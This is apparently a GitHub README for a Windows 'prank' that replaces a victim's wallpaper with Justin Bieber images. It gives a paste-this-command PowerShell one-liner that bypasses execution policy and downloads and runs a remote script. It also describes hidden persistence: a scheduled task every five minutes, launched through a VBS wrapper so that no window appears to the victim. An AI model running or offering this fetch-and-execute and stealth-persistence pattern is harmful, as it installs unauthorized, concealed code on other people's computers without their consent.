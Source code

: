 # Justin Wallpaper Prank

This script is a prank that will change the wallpaper of a victim's computer to Justin Bieber images.

It can be run by only running a single command in the cmd prompt.

Note: This only works on `Windows`. For `Mac` version, please check out [this repository](https://github.com/FredericMartinez/justin-hack) from [Frederic Martinez](https://github.com/FredericMartinez).

## How to use

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/install.ps1')|iex"

```

![install](./screenshots/install.png)

## How it works

The command above will download a powershell script from this repository and run it.

Firstly, the script will create a directory under `%userprofile%` and download Justin's image from [here](./images).

Then the script will download the [changer.ps1](./changer/changer.ps1) that is in charge of changing the wallpaper. This `changer.ps1` script will be scheduled in the task scheduler to run every 5 minutes.

The reason why we also have a `jhcaller.vbs` is because if we schedule a PowerShell script into the task scheduler, it will quickly show up a cmd window and disappear. This is not what we want. So we use a `vbs` script to call the `changer.ps1` script, which is a little work around :
    
```vbs
objShell.Run strCMD, 0
```

In the [jhcaller.vbs](./changer/jhcaller.vbs) we can see this line of code. This line of code will run the `changer.ps1` script in the background and won't show any pop-up.

Finally, the scheduled task is created via a [template](changer/taskTemplate.xml) in order to edit some configurations that are not avaible in the task scheduler CLI, such as activating the scheduled task if the computer isn't plugged-in.

## How to remove

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/unistall/uninstall.ps1')|iex"
```

This will remove the scheduled task and the directory that was created.

![uninstall](./screenshots/uninstall.png)

## How to contribute

If you want to contribute, please feel free to open a pull request or an issue.

## License

[MIT](./LICENSE)

## Author

[mxcezl](https://github.com/mxcezl)